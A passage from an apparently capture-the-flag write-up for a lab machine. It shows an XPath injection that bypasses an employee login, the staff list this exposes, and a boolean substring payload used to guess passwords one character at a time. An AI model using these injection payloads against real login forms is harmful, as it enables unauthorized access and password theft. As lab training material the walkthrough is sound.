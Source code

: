 we can see that there is an employee login section
after backtracking a step i noticed that there was a Forbidden `/employees.xml` file gobuster found

i though that maybe the login is vulnerable to some `xpath` injection

```
' or 1=1 or 'a'='a
```

and voila, it works

```
Rita Fubelli

rita@unbalanced.htb

Role: HR Manager
------

Jim Mickelson

jim@unbalanced.htb

Role: Web Designer
------

Bryan Angstrom

bryan@unbalanced.htb

Role: System Administrator
------

Sarah Goodman

sarah@unbalanced.htb

Role: Team Leader
```

lets focus on the sysadmin

i set up my burp user options by adding the squid proxy as an upstream proxy
and use default firefox proxy settings to point to burp

then i enter the xpath injection into the field

```
'or substring(Password,1,1)='p' or'
```


## Bruteforcing

rita's password seems to start with 'p', so we have demonstrated that this route will work

